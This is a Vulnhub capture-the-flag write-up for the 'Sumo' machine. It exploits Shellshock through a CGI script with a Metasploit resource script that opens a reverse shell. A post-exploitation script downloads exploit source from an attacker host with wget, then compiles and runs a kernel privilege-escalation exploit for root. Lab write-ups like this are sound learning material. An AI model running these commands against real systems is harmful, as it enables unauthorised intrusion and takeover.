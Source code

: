 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview

![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". From here there seem to be 2 ways to find the vector:
  1) Nikto
  2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

## Initial Access, Execution & Command and Control
--------
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module.

###### Metasploit Resource Script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```
#MetasploitScripts


## Discovery > Collection > Exfiltration
--------
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
--------
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu 3.2.0 
```


### sumo_post.sh - privilege escalation script
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```



## Appendix: 
---
## Key lessons learned:
---
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```

## Technical Issues Encountered
---
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp

Tags
#vulnhub #linux